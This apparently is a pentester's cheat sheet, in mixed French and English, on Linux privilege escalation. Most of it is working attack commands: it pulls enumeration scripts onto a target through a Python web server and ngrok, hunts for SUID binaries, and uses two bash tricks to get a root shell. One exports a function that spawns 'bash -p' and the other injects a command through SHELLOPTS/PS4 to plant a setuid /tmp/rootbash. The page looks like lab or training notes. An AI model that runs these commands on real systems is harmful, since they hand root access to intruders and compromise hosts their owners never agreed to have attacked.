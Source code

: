 # PRIVILEGES ESCALATION : 

### Scripts : 
- LinEnum.sh & LinPeas.sh
- linux-exploit-suggester.sh  

### Mettre LinEnum sur la machine cible :
```bash
python3 -m http.server 8000 				-> Ouvre une serveur web python en local
ngrok http 8000								-> Port forwarding
wget https://ngrok.io:port/linEnum.sh		-> copie le fichier sur la machine vulnérable
```

### A la main :  
### ABUSING SUID FILES :  
```bash
find / -perm -u=s -type f 2>/dev/null
```
ou
```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
then search suspect SUID in GTFOBINS

##### SOME OF THE SUID MAY BE VULNERABLE : BE CAREFUL

### KNOWN EXPLOIT : 
looking for the exploit in exploit-db.com or google ...


### ABUSING SHELL FEATURES : 
***context :***

The  executable is identical to /usr/local/bin/suid-env  
except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.  
```bash
/bin/bash --version 
```
- This works only if the version is under 4.2-048
```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2
```



### ABUSING SHELL FEATURE #2
(will not work on bash version 4.4 and above)  
(vuln with debugging bash enabled)  
```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env
/tmp/rootbash -p
```
